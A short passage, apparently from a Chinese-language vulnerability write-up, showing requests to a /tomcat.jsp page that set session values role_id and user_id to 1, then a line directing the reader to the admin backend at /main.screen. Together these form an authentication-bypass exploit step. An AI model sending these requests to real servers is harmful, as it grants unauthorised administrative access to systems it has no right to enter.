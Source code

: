 ```

/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```

**然后访问后台：/main.screen**